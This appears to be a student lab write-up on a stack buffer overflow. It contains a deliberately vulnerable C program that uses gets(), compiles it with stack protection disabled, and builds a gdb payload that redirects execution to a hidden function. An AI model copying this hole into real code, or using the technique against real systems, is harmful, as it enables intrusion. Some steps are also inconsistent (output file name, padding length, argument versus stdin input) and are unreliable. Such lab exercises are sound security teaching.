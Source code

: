 ﻿# Attacks
___
Firstly, run the docker image
```bash
docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab
```
## Bof1.c 
***
```c
#include<stdio.h>
#include<unistd.h>
void secretFunc()
{
    printf("Congratulation!\n:");
}
int vuln(){
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char*argv[]){
    if (argv[1]==0){
        printf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```
Firstly, we need to compile the code.
```shell script --compile
gcc -g bof1.c -o bof1,out -fno-stack-protector -mpreferred-stack-boundary=2
```
Then, we open the binary in gdb.
```shell script --gdb
gdb -q ./bof1.out
```
In order to run the secretFunc, we need to overwrite the return address of the vuln function with the address of the secretFunc.
And to do that we need to find the address of the secretFunc.
```shell script --gdb-peda
gdb-peda$ p secretFunc
```
output:
```shell script --gdb-peda
$1 = {void ()} 0x804846b <secretFunc>
```
We know the stack frame of the vuln function

We know the array is 200 bytes long, and ebp is 4 bytes long, so we need to overwrite 204 bytes to reach the return address.
```shell script --gdb-peda
gdb-peda$ r $(python -c 'print "A"*200 + "\x6b\x84\x04\x08"')
```



